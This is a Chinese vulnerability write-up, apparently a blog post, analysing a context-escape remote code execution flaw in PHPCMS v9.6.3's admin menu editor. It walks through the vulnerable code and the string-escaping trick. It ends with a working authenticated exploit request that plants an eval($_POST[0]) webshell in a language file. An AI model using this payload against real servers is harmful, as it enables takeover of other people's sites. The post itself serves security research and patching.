




# 浅析 PHPCMSv9.6.3 上下文逃逸导致RCE


作为 PHPCMS 系列分析的最后一个漏洞，算是为这个系列画上句号。
# PHP 特性
首先了解一个 PHP 特性，当 PHP 读取数组键值对时，读取出来的键是会自动去除转义
```
//示例，读取数组中的键
<?php
$L1nJ3['1'] = '1\'';
print($L1nJ3['1']);
```
可以看到读取出来的值是不是 `\'` 而是 `'`

接下来进行代码审计
# 代码审计
代码定位在 phpcms/modules/admin/menu.php 81-101行
```
function edit() {  
    if(isset($_POST['dosubmit'])) {  
       $id = intval($_POST['id']);  
       //print_r($_POST['info']);exit;  
       $r = $this->db->get_one(array('id'=>$id));  
       $this->db->update($_POST['info'],array('id'=>$id));  
       //修改语言文件  
       $file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';  
       require $file;  
       $key = $_POST['info']['name'];  
       if(!isset($LANG[$key])) {  
          $content = file_get_contents($file);  
          $content = substr($content,0,-2);  
          $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";  
          file_put_contents($file,$data);  
       } elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {  
          $content = file_get_contents($file);  
          $content = str_replace($LANG[$key],$_POST['language'],$content);  
          file_put_contents($file,$content);  
       }  
       $this->update_menu_models($id, $r, $_POST['info']);  
         
       //结束语言文件修改  
       showmessage(L('operation_success'));  
    } else {  
	    ...
    }  
}
```
指定文件路径并引用文件，这个路径定死了不可控
```
$file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';  
//phpcms/languages/zh-cn/system_menu.lang.php
require $file;
```
文件内的格式如下，全是 PHP 数组形式

当当我们第一次发包，$LANG 数组中显然是没有传入的 $key 的键，因此进入 if 内部。file_put_contents 第一个参数 $file 仍然是之前定死的，也就是往 phpcms/languages/zh-cn/system_menu.lang.php 文件内写。第二个参数 $data 由 POST 传入的 $key、$language 参数和 system_menu.lang.php 文件中原本内容以及 ;\r\n?> 字符串拼接而成
```
$key = $_POST['info']['name'];  
if(!isset($LANG[$key])) {  
    $content = file_get_contents($file);  
    $content = substr($content,0,-2);  
    $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";  
    file_put_contents($file,$data);
```
而在之前 PHPCMSV9 路由分析篇中提到过，其 $_POST 传入的值会先走过 param.class.php，然后才是 application.class.php::init() -> call_user_func() 调用指定类文件
而 param 类的构造方法中进行了转义，我们无法直接在 menu.php::exit()  if 内部绕掉转义
```
class param {
	//路由配置
	private $route_config = '';
	public function __construct() {
		if(!get_magic_quotes_gpc()) {
			$_POST = new_addslashes($_POST);
			$_GET = new_addslashes($_GET);
			$_REQUEST = new_addslashes($_REQUEST);
			$_COOKIE = new_addslashes($_COOKIE);
		}
```
再看 elseif，假设我们在第一次发包后再发一次，那么此时 system_menu.lang.php 文件内已经写入了键值对，因此 isset($LANG[$key]) 会返回 true，而 $LANG[$key] 上面在 PHP特性中分析过，取出来会自动进行去除转义操作，因此 $LANG[$key]!=$_POST['language'] 也返回 true
```
elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
	$content = file_get_contents($file);
	$content = str_replace($LANG[$key],$_POST['language'],$content);
	file_put_contents($file,$content);
}
```
达成条件，进入 elseif 函数体内，上下文逃逸的关键 str_replace，search为 $LANG[$key] 而写入的是带有转义的
假设第一次写入 $LANG['1']='1\''，那么 $LANG[$key] 此时取出来为 1'，在上下文中找并替换为 $_POST['language']，即：
```
$LANG['1'] -> $LANG['1\']
```
那么此时语法上是不是就少了一个引号，这有点像序列化字符串逃逸，引号被整没了，那么后面的字符就可以逃逸出来
```
$LANG[']1//'] = ']1//\'' -> $LANG['1//\'] = ']1//\''
```
那么 1 就逃逸出来了！我们只需要将 1 换为危险的 php 木马即可完成 RCE 利用
# 漏洞验证
首先登录后台，拿到认证凭证，否则类文件都访问不了就弹警告了
然后发包
```
/index.php?m=admin&c=menu&a=edit&pc_hash=tigdXO&id=1
POST：dosubmit=1&info[name]=];eval($_POST[0]);//&language=];eval($_POST[0]);//'
```

再发

完成漏洞利用


PS. 虽然 PHPCMS 系列结束了，但 PHP 安全研究才刚刚开始，PHP 作为安全问题无穷无尽的语言，还有太多等着探索 


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/%E6%B5%85%E6%9E%90-phpcmsv9-6-3-%E4%B8%8A%E4%B8%8B%E6%96%87%E9%80%83%E9%80%B8%E5%AF%BC%E8%87%B4rce/  

